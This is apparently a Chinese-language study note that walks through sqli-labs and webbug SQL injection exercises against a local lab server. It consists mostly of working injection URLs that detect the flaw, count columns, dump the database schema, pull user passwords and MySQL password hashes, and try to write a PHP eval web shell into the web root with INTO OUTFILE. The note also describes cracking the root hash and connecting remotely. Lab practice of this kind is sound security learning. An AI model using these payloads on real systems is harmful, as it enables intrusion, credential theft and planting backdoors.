









### sqli-labs
#### less1
```SQL
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

##### 判断存在注入
```SQL
http://192.168.48.128/sqli-labs/Less-1/?id=1  # 正常访问,true
http://192.168.48.128/sqli-labs/Less-1/?id=1' # 报错
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=1 --' # 正常访问,true
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2 --' # 不报错,查询不到数据
```



##### 判断列数
```SQL
http://192.168.48.128/sqli-labs/Less-1/?id=1%27 order by 3 %23  # 访问正常
http://192.168.48.128/sqli-labs/Less-1/?id=1%27 order by 4 %23  # 报错:Unknown column '4' in 'order clause'
http://192.168.48.128/sqli-labs/Less-1/?id=1%27 and 1=2  union select 1,2,3 %23  #只显示2和3判断出显示第二行和第三行
```

##### 获取数据库相关信息
```
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2, concat_ws(char(32,58,32),@@version,@@datadir,user(),database()) %23

```


##### 尝试上传一句话木马
```SQL
由上可知是phpstudy的站，尝试上传一句话木马

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2, "<?php @eval($_POST['aaa']);?>" into outfile "C:\phpStudy\PHPTutorial\WWW" %23

```

### GG继续查看有用的信息
```SQL
http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(schema_name) from information_schema.schemata%23   ##爆数据库

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()%23  ##爆表

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,group_concat(column_name),3 from information_schema.columns where table_name='user' and table_schema=database()%23  #爆字段 id,username,password

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(id,char(32,58,32),username,char(32,58,32),password) from users;%23 #爆内容

http://192.168.48.128/sqli-labs/Less-1/?id=1' and 1=2  union select 1,2,group_concat(user,char(32,58,32),host,char(32,58,32),password) from mysql.user;%23 #爆出mysql用户名与哈希值
# root : % : *81F5E21E35407D884A6CD4A731AEBFB6AF209E1B 
# good!mysql对任意主机开放 查md5得到密码为root 轻松navicat for mysql连接
```







#### less2
```SQL
$sql="SELECT * FROM users WHERE id=$id LIMIT 0,1";
```
和1不同的就是id没有用引号引起来
```
http://192.168.48.128/sqli-labs/Less-2/?id=1' 
http://192.168.48.128/sqli-labs/Less-2/?id=1 and 1=1
http://192.168.48.128/sqli-labs/Less-2/?id=1 and 1=2
# 可以判断存在注入且是整数型
http://192.168.48.128/sqli-labs/Less-2/?id=1 and 1=2 union select 1,2,group_concat(user,char(32,58,32),host,char(32,58,32),password) from mysql.user;%23 #爆出mysql用户名与哈希值
```



### webbug less1
```SQL
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1'&submit=提交查询    #出错
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1 and 1=1 #&submit=提交查询 #正常输出
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1 and 1=2 %23&submit=提交查询  #输出通过上
## 判断不是数字型注入
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 %23&submit=提交查询  #查无数据
# 判断是字符注入
http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=1 order by 4 %23 &submit=提交查询
查出行数为4行

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,null,group_concat(table_name) from information_schema.tables where table_schema=database() %23  &submit=提交查询  ##表

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,database() ,group_concat(column_name) from information_schema.columns where table_name='user' and table_schema=database()%23  &submit=提交查询   ##user表的字段

http://192.168.48.128/webbug/pentest/test/sqli/sqltamp.php?gid=1' and 1=2 union select  @@datadir,@@version,database() ,group_concat(uid,char(9),uname,char(9),pwd,char(9),bill)  from user%23  &submit=提交查询 #user表内容


```



###杂记
##### Mysql注释

```
MySQL服务器支持3种注释风格：

#: 从'#'字符从行尾。

--: 从'-- '序列到行尾。请注意 **'-- '(双破折号)注释风格要求第2个破折号后面至少跟一个空格符(例如空格、tab、换行符等等)

/**/ 从/*序列到后面的*/序列。结束序列不一定在同一行中，因此该语法允许注释跨越多行。
```


- [SQL注入科普_wooyun](http://static.hx99.net/static/drops/tips-123.html)
- [MySQL中函数CONCAT及GROUP_CONCAT](http://www.cnblogs.com/appleat/archive/2012/09/03/2669033.html)